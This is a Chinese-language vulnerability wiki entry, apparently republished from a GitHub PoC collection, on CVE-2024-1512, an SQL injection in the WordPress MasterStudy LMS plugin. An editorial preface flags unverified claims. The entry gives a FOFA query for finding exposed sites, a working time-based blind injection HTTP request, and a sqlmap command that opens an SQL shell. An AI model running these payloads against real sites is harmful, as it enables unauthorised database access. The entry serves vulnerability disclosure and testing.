

## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.2.5; REST order/items permissions and module availability unspecified

- **结论使用边界（1）**：frontmatter fofa只有body=而正文完整。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：描述UNION型，唯一文本PoC是时间盲注，应区分证据与公告分类。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：未提供认证/nonce不等于证实无鉴权；在野已知、低难度表格无源。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：官方修复标题下仅通用建议没有官方链接/安全版本；报文缺代码围栏。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress MasterStudy LMS插件 SQL注入漏洞(CVE-2024-1512)

# 漏洞描述

WordPress Plugin MasterStudy LMS 3.2.5 版本及之前版本存在安全漏洞，该漏洞源于对用户提供的参数转义不足，导致可以通过 /lms/stm-lms/order/items REST 路由的 user 参数进行基于联合的 SQL 注入。

# 影响范围

WordPress Plugin MasterStudy LMS <= 3.2.5

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/masterstudy-lms-learning-management-system/"

POC/EXP1：

```http
GET /?rest_route=/lms/stm-lms/order/items&author_id=1&user=1)+AND+%28SELECT+3493+FROM+%28SELECT%28SLEEP%285%29%29%29sauT%29+AND+%283071%3D3071 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```


sqlmap.py -u "https://127.0.0.1/?rest_route=/lms/stm-lms/order/items&author_id=1&user=1" --sql-shell




# 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

升级插件版本为安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
